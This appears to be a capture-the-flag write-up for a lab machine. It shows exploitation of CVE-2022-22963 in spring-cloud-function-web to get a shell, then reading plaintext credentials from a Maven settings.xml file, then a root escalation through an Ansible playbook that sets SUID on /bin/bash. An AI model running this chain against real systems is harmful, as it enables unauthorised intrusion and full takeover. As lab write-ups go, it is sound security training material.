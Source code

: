 Out of these searchinf for `spring-cloud-function-web: version 3.2.2` Shows that it is vulnerable to CVE-2022-22963.[^fn:1]

Using the exploit, i modifed slightly to use pwncat-cs.

```sh
python exploit.py -i 10.10.14.147 -u http://10.10.11.204:8080
```

You now have foothold


### Foothold. {#foothold-dot}

you get back a shell as a user named `frank`.

looking around you can find a file at `~/.m2/settings.xml` which contains creds for user, which you can not use with ssh sadly.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

-   phil:DocPhillovestoInject123


### privesc {#privesc}

running linpeas shows alot of ansible related items and that `/opt/automation/` is writble to memebers of the automation group, which phil is.
running `pspy64` i see that root runs ansible on all playbooks in the automation directory.[^fn:2]

```text
2023/06/27 13:20:01 CMD: UID=0     PID=2559   | /bin/sh -c /usr/local/bin/ansible-parallel /opt/automation/tasks/*.yml
```

I choose to write a playbook that sets suid on /bin/bash

```yaml
- hosts: localhost

  tasks:
    - name: Set setuid permission
      file:
        path: /bin/bash
        mode: "u+s"
```

then after a few moments you can run `bash -p` to become root.

[^fn:1]: Exploit i used
[^fn:2]: <https://github.com/DominicBreuker/pspy>
